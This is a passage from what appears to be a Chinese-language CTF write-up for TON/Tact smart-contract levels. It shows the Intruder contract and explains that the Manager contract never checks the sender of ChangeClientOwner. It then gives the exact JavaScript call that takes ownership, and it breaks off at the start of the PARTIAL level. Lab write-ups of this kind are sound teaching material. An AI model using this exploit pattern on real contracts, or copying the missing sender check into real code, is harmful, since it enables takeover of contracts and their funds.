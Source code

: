         receive(msg: ChangeOwnerInternal) {
            require(sender() == self.manager, "Wrong sender.");
            self.owner = msg.newOwner;
        }

        receive("check") {
            send(SendParameters{
                to: sender(),
                value: 0,
                mode: SendRemainingValue,
                bounce: false,
                body: CheckLevelResult{
                    name: "intruder",
                    completed: self.owner == self.player
                }.toCell()
            });
        }

        get fun owner(): Address {
            return self.owner;
        }
    }
    ```

- 只有 `manager` 能设置合约的所有者，而初始 `manager` 为 `Manager` 合约
- 合约 `Manager` 不检查 `ChangeClientOwner` 消息的发送者

    ```js
    message(0x6f13c225) ChangeClientOwner {
        newOwner: Address;
    }
    ```

- 可以向 `Manager` 合约发送 `ChangeClientOwner` 消息来设置 `IntruderLevel` 合约的所有者

    ```js
    > await player.send({to: Address.parse("kQCi5Sne638i1fdoGMK7cnKPVuQWgyGO4N4LxneLonWwvgZ_"), value: toNano("0.01"), body: beginCell().storeUint(0x6f13c225, 32).storeAddress(player.address).endCell()});
    ```

## 5. PARTIAL

> The goal of this level is to hack the vault contract below.
> 
> You are given 100 tokens to start with and you will beat the level if you manage to acquire 1000 or more.

??? note "PartialLevel"

    ```js
    import "@stdlib/ownable";
    import "@stdlib/deploy";
    import "./messages";
